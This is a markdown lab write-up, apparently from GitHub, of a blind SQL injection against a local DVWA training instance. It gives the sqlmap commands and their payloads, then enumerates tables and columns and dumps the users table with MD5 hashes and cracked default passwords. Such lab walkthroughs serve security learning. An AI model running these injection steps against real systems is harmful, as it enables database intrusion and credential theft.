 # Recon

> sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/" --batch --dbs --cookie="PHPSESSID=s4t13jonrotdorlreln2grunmm; security=medium" --data="id=1&Submit=Submit"

```
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5425=5425&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4738 FROM (SELECT(SLEEP(5)))Mppn)&Submit=Submit
```

# Tables

> sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/" --batch --dbs --cookie="PHPSESSID=s4t13jonrotdorlreln2grunmm; security=medium" --data="id=1&Submit=Submit" -D dvwa --tables

```
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

# Columns

> sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/" --batch --dbs --cookie="PHPSESSID=s4t13jonrotdorlreln2grunmm; security=medium" --data="id=1&Submit=Submit" -D dvwa -T users --columns

```
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+
```

# Dump

> sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/" --batch --dbs --cookie="PHPSESSID=s4t13jonrotdorlreln2grunmm; security=medium" --data="id=1&Submit=Submit" -D dvwa -T users --dump


## Cracked passwords

```
[22:37:57] [INFO] using hash method 'md5_generic_passwd'
[22:37:57] [INFO] resuming password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
[22:37:57] [INFO] resuming password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
[22:37:57] [INFO] resuming password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
[22:37:57] [INFO] resuming password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
```

```
Database: dvwa                                                                                                      
Table: users
[5 entries]
+---------+---------+----------------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                           | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+----------------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 3       | 1337    | /dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2022-07-22 21:19:41 | 0            |
| 1       | admin   | /dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2022-07-22 21:19:41 | 0            |
| 2       | gordonb | /dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2022-07-22 21:19:41 | 0            |
| 4       | pablo   | /dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2022-07-22 21:19:41 | 0            |
| 5       | smithy  | /dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2022-07-22 21:19:41 | 0            |
+---------+---------+----------------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
```